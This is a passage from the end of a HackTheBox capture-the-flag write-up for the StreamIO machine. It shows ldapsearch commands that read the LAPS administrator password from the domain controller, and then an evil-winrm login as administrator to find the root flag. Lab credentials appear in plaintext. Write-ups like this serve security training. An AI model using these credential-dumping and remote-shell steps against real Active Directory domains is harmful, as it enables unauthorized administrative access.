 Now that we are part of the **CORE STAFF@STREAMIO.HTB** group, we can use `ldapsearch` to query the **ms-MCS-AdmPwd** attribute of the domain controller.


```bash
$ ldapsearch -x -b 'DC=streamIO,DC=htb' -H ldap://10.129.207.221 -D JDgodd@streamio.htb -w 'JDg0dd1s@d0p3cr3@t0r' "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
# extended LDIF
#
# LDAPv3
# base <DC=streamIO,DC=htb> with scope subtree
# filter: (ms-MCS-AdmPwd=*)
# requesting: ms-MCS-AdmPwd 
#

# DC, Domain Controllers, streamIO.htb
dn: CN=DC,OU=Domain Controllers,DC=streamIO,DC=htb
ms-Mcs-AdmPwd: p-294I{bf,t2a1
```

Finally, we can connect as administrator on the box and grab the **second flag**.

```bash
$ evil-winrm -i streamio.htb -u administrator -p 'p-294I{bf,t2a1'

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> ls ../Desktop
*Evil-WinRM* PS C:\Users\Administrator\Documents> ls C:\users\martin\desktop


    Directory: C:\users\martin\desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/27/2023   7:14 PM             34 root.txt
```

Awesome! I hope you enjoyed it, I know I did :)